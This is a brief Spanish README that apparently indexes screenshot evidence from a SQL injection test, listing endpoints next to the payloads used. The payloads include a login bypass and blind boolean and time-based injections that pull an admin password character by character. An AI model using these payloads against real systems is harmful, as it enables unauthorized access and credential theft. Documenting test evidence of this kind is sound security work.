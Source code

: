 # README_evidencias

--

1) login_bypass_01.png
- Fecha / hora: 2025-10-02 HH:MM
- Endpoint probado: POST /login
- Payload usado:
```
admin' --
' OR '1'='1' --
```

2) union_01.png
- Endpoint probado: GET /items?id=1
- Payload usado:


3) blind_01.png
- Endpoint probado: GET /profile?id=1
- Payload used (boolean/time):
```
1' AND SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)='a' --
1' AND IF(SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)='a', SLEEP(5), 0) --
```

